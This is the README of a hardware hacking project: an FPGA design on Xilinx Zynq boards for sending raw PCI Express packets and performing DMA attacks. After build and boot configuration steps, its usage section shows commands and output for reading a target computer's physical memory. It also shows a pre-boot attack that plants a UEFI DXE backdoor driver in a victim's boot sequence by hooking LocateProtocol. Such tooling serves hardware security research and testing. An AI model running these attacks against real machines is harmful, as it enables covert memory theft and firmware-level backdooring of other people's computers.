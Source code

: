  
# Xilinx Zynq DMA attack tools

## General Information

This design allows to send and receive raw TLP packets of PCI Express bus form the application code running on Xilinx Zynq processing system. It can be used for prototyping, studying of PCI Express transaction and application layers, performing DMA attacks and other purposes.

It's compatible with my previously released Python tools available at [PCI Express DIY hacking toolkit](https://github.com/Cr4sh/s6_pcie_microblaze) project page.

Programmable logic part of this design uses PCI Express Hard IP and two AXI DMA cores: axi_dma_0 for copying TLP streams into the RAM and axi_dma_1 to access PCI Express endpoint configuration space with `python/pcie_cfg.py` utility. To work with AXI DMA cores on processing system side Python tools are using [Linux Userspace I/O framework](https://www.kernel.org/doc/html/v4.14/driver-api/uio-howto.html), for more information see `python/linux_uio.py` and `python/linux_axi_dma.py` files.


## Building the Project

To build the project you have to perform the following steps:

 1) Run `make project` to create Vivado project from `zc_pcie_dma.tcl`.

 2) Open `zc_pcie_dma/zc_pcie_dma.xpr` in Vivado, run sythesis, implementation, generate the bitstream and export hardware design into the `zc_pcie_dma.xsa` file.

 3) Run `make bin && make uenv` to generate an example of `uEnv.txt` file used to load the bitstream with U-Boot.

 4) Run `git submodule init && git submodule update`, cd into the `devicetree/my_dtg/device-tree-xlnx` and run `git checkout xilinx-v2020.1`.

 5) Run `make dts_gen` to generate device tree source code.

 6) Open `devicetree/my_dts/pl.dtsi` and replace `compatible = "xlnx,axi-dma-7.1", "xlnx,axi-dma-1.00.a"` and `compatible = "xlnx,axi-gpio-2.0", "xlnx,xps-gpio-1.00.a"` strings with `compatible = "generic-uio"` for `axi_dma_0`, `axi_dma_1` and `axi_gpio_0` instances.

 7) Run `make dts_build` to generate device tree binary. 

 8) Copy `devicetree.dtb` and `zc_pcie_dma.bit` files to the boot partition.

For more information about building the device tree see Xilinx wiki: 

 * https://xilinx-wiki.atlassian.net/wiki/spaces/A/pages/136904764/Creating+Devicetree+from+Devicetree+Generator+for+Zynq+Ultrascale+and+Zynq+7000

 * https://xilinx-wiki.atlassian.net/wiki/spaces/A/pages/341082130/Quick+guide+to+Debugging+Device+Tree+Generator+Issues


## Configuring Linux Kernel

Python tools for performing DMA attacks are using high 32 megabytes of RAM to communicate with AXI DMA engines running on programmable logic. For this reason, you need to tell the Linux kernel to don't touch those reserved 32 megabytes of RAM by passing `mem` command line option. For example, ZC706 board has 1 gigabyte of RAM, so you need to put `mem=992M` string into your `uEnv.txt`. Reserved memory address and size is also located in the `devicetree/scratch_mem.dtsi` file used to generate device tree, if your board has different amount of RAM you have to edit `reg = <0x3e000000 0x2000000>` string before building the device tree.

Linux kernel needs to be compiled with `CONFIG_XILINX_AXIDMA` and `CONFIG_UIO` options enabled. Also, you need to pass `uio_pdrv_genirq.of_id=generic-uio` command line option to the kernel in order to get the UIO framework usable.

Example of `uEnv.txt` file with typical U-Boot configuration:

```
bootargs=console=ttyPS0,115200 root=/dev/mmcblk0p2 rw earlyprintk rootfstype=ext4 rootwait devtmpfs.mount=0 mem=992M uio_pdrv_genirq.of_id=generic-uio
load_fpga=fatload mmc 0 0x4000000 zc_pcie_dma.bit && fpga loadb 0 0x4000000 13321511
load_image=fatload mmc 0 ${kernel_load_address} ${kernel_image} && fatload mmc 0 ${devicetree_load_address} devicetree.dtb
uenvcmd=echo Copying Linux from SD to RAM... && mmcinfo && run load_fpga && run load_image && bootm ${kernel_load_address} - ${devicetree_load_address}

```


## Usage

After booting the board with needed bitstream and device tree connect its PCI Express edge connector with riser cable to the target computer and power it on.

To view PCI Express endpoint configuration space you can use `python/pcie_cfg.py` utility:

```
$ sudo ./pcie_cfg.py
[+] PCI-E link with target is up
[+] Device address is 01:00.0

           VENDOR_ID = 0x10ee
           DEVICE_ID = 0x1337
             COMMAND = 0x0
              STATUS = 0x10
            REVISION = 0x0
          CLASS_PROG = 0x0
        CLASS_DEVICE = 0x200
     CACHE_LINE_SIZE = 0x0
       LATENCY_TIMER = 0x0
         HEADER_TYPE = 0x0
                BIST = 0x0
      BASE_ADDRESS_0 = 0x91500000
      BASE_ADDRESS_1 = 0x0
      BASE_ADDRESS_2 = 0x0
      BASE_ADDRESS_3 = 0x0
      BASE_ADDRESS_4 = 0x0
      BASE_ADDRESS_5 = 0x0
         CARDBUS_CIS = 0x0
 SUBSYSTEM_VENDOR_ID = 0x10ee
        SUBSYSTEM_ID = 0x7
         ROM_ADDRESS = 0x0
      INTERRUPT_LINE = 0xff
       INTERRUPT_PIN = 0x1
             MIN_GNT = 0x0
             MAX_LAT = 0x0
```

To read target computer physical memory you can use `python/pcie_mem.py` utility:

```
$ sudo DEBUG_TLP=1 ./pcie_mem.py 0 0x20
[+] PCI-E link with target is up
[+] Device address is 01:00.0
TLP TX: size = 0x04, source = 01:00.0, type = MRd64
        tag = 0x05, bytes = 0x24, addr = 0x00000000

        0x20000009 0x010005ff 0x00000000 0x00000000

TLP RX: size = 0x0c, source = 00:00.0, type = CplD
        tag = 0x05, bytes = 36, req = 01:00.0, comp = 00:00.0

        0x4a000009 0x00000024 0x01000500
        0x00000000 0x00000000 0x00000000 0x00000000 0x00000000 0x00000000 0x00000000 0x00000000 0x00000000

00000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................
00000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................

```

To perform pre-boot DMA attack and inject arbitrary UEFI DXE driver into the victim machine boot sequence you can use `python/uefi_backdoor_simple.py` utility with test payload as UEFI DXE driver located in `python/payloads/DmaBackdoorSimple`:

```
$ sudo ./uefi_backdoor_simple.py -p payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Reading DXE phase payload from payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a440000
[+] PE image is at 0x79fc0000
[+] EFI_SYSTEM_TABLE is at 0x7a03b018
[+] EFI_BOOT_SERVICES is at 0x7a38ca30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3957b4
Backdoor image size is 0x1520
Backdoor entry RVA is 0x5cc
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3957b4 -> 0x000c05cc
3.233141 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

For more information about pre-boot DMA attacks check out [PCI Express DIY hacking toolkit](https://github.com/Cr4sh/s6_pcie_microblaze) project documentation.
